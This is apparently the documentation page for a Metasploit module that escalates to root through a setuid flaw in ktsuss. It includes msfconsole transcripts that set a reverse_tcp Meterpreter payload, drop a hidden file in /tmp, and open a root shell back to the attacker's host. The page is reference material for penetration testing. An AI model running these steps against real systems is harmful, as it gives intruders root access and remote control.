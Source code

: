 ## Description

  This module attempts to gain root privileges by exploiting
  a vulnerability in ktsuss versions 1.4 and prior.

  The `ktsuss` executable is setuid `root` and does not drop
  privileges prior to executing user specified commands,
  resulting in command execution with `root` privileges.


## Vulnerable Application

  This module has been tested successfully on:

  * ktsuss 1.3 on SparkyLinux 6 (2019.08) (LXQT) (x64)
  * ktsuss 1.3 on SparkyLinux 5.8 (LXQT) (x64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/ktsuss_suid_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

### KTSUSS_PATH

  Path to `ktsuss` executable (default: `/usr/bin/ktsuss`)

### WritableDir

  A writable directory file system path. (default: `/tmp`)


## Scenarios

### ktsuss 1.3 on SparkyLinux 5.8 (LXQT) (x64)

  ```
  msf > use exploit/linux/local/ktsuss_suid_priv_esc 
  msf exploit(linux/local/ktsuss_suid_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/ktsuss_suid_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/ktsuss_suid_priv_esc) > check

  [+] /usr/bin/ktsuss is setuid
  [*] uid=1001(test) gid=1001(test) euid=0(root) groups=1001(test)
  [+] The target is vulnerable.
  msf exploit(linux/local/ktsuss_suid_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp 
  payload => linux/x64/meterpreter/reverse_tcp
  msf exploit(linux/local/ktsuss_suid_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf exploit(linux/local/ktsuss_suid_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] /usr/bin/ktsuss is setuid
  [*] uid=1001(test) gid=1001(test) euid=0(root) groups=1001(test)
  [*] Writing '/tmp/.lBanpIYpAJ60cwt' (389 bytes) ...
  [*] Executing payload ...
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (3021284 bytes) to 172.16.191.137

  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.137:53060) at 2019-08-19 09:18:29 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.137
  OS           : Sparky 5.8 (Linux 4.19.0-5-amd64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

### ktsuss 1.3 on SparkyLinux 6 (2019.08) (LXQT) (x64)

  ```
  msf > use exploit/linux/local/ktsuss_suid_priv_esc 
  msf exploit(linux/local/ktsuss_suid_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/ktsuss_suid_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/ktsuss_suid_priv_esc) > check

  [+] /usr/bin/ktsuss is setuid
  [*] uid=1001(test) gid=1002(test) euid=0(root) groups=1002(test)
  [+] The target is vulnerable.
  msf exploit(linux/local/ktsuss_suid_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf exploit(linux/local/ktsuss_suid_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf exploit(linux/local/ktsuss_suid_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] /usr/bin/ktsuss is setuid
  [*] uid=1001(test) gid=1002(test) euid=0(root) groups=1002(test)
  [*] Writing '/tmp/.R0aTPpB8aHk' (389 bytes) ...
  [*] Executing payload ...
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (3021284 bytes) to 172.16.191.167

  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.167:44534) at 2019-08-19 09:25:48 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.167
  OS           : Sparky 6 (Linux 4.19.0-5-amd64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

